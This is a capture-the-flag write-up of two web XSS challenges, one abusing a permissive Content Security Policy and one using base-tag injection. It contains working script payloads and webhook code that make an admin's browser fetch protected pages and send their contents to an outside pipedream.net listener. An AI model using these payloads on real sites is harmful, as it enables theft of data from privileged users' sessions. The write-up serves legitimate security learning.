

---
**DESCRIPTION
Hint
```
var xhr = new XMLHttpRequest();
xhr.open('GET', '/xss-one-flag', true);
```

First line creates a new instance of the XMLHttpRequest object and stores it in the variable xhr.  xhr is now a messanger that the browser uses to talk to a web server in the background without refreshing the entire page.
The second like configures the request but does not sent it yet. It takes three parameters... The method (GET), URL endpoint or path, the Asynchronous Flag meaning the browser will continue running the rest of code while waiting for the server to respond. 



**`script-src 'self' 'unsafe-inline';`**:  self allow script from same domain, unsafe-inline allows browser to execute JavaScript written directly inside HTML tags
**`connect-src *;`**:  The wildcard mean the page is allowed to send or receive data to any website in the world (via fetch or XMLHttpRequest)
**`default-src 'self' 'unsafe-inline';`**: 
**`style-src-elem` & `font-src`**:  Restricts CSS and fonts to only come from self or Google fonts

---
**PAYLOAD

<script>var x=new XMLHttpRequest();x.open("GET","/xss-one-flag",true);x.onreadystatechange=function(){if(x.readyState==4)document.body.innerHTML=x.responseText};x.send();</script>

The script failed because i was not admin


Ohh, i missed this


So i used pipedreams.com, which acts as a advanced webhook listener. 
**Submitted payload
```
<script>
  
  fetch('/xss-one-flag')
    .then(response => response.text())
    .then(flag => {
      
     
      fetch('https://eoufd5kfnab2vqn.m.pipedream.net/?data=' + btoa(flag), {
        mode: 'no-cors',
        keepalive: true 
      });
    })
    .catch(err => console.log("Capture failed:", err));
</script>
```

OR 

```
<script>
  var xhr = new XMLHttpRequest();
 
  xhr.open("GET", "/xss-one-flag", true);
  
  xhr.onreadystatechange = function() {
    
    if (xhr.readyState === 4 && xhr.status === 200) {
        var flag = xhr.responseText;
        
        
        var exfil = new XMLHttpRequest();
        var url = "https://eoufd5kfnab2vqn.m.pipedream.net/?data=" + btoa(flag);
        
        exfil.open("GET", url, true);
        exfil.send();
        
        // 4. Backup: Use an Image request in case the admin closes the page fast
        // (This is the classic XHR exfiltration trick)
        new Image().src = url;
    }
  };
  
  xhr.send();
</script>
```

Because i am not admin, my  browser is blind to their session. The webhook captures the event that happens in the admins browser i dont control.

---
**FLAG


The first request shows the message "Sorry, admins only" and the second one shows the actual flag.


---
**REFERENCE
https://medium.com/@yuvaraj.io/lesson-58-understanding-xmlhttprequest-xhr-the-old-way-to-talk-to-apis-before-fetch-f3eb751d3ee3


---


WEB-TUTORIAL 2
---



---

**DESCRIPTION/MISSION


I have a CSP hint

**`script-src 'self' 'nonce-random'`**: This means to run script on site, it must either be a file hosted on the same server or it must have a unique, one-time secret passcode that the server just generated. Therefore scripts hosted externally or inline scripts directly in the HTML are blocked eg, `<script>alert(1)</script>`

---

**THE VULNERABILITY
**Base Tag Injection vulnerability

The CSP lacks base-uri. This is directive that restricts the URLs allowed in a doc's base element, which defines the base URL for resolving related links. It enhances security by preventing attackers from redirecting relative links to malicious sites.



The hint highlight the vulnerability.
Since there is no base-uri directive and the application attempts to load a relative script (test.js) with a valid nonce, i can hijack the request.

in webhook i use code:

export default defineComponent({
  async run({ steps, $ }) {
    await $.respond({
      status: 200,
      headers: { "Content-Type": "text/javascript" },
      body: `
        // Use window.location.origin to ensure we hit the CTF server, not Pipedream
        fetch(window.location.origin + '/xss-two-flag')
          .then(r => r.text())
          .then(html => {
            // Send the actual HTML of the flag page back to you
            fetch('${steps.trigger.event.url}?final_flag=' + btoa(html));
          });
      `
    })
  },
})

Payload


Result in webhook


decoded


---

***REFERENCES
https://bugcrowd.com/disclosures/fd5b1c75-54a1-4db9-8618-a4e26c6b8147/base-tag-hijacking-via-host-header-injection

https://punksecurity.co.uk/blog/base_tag_injections/
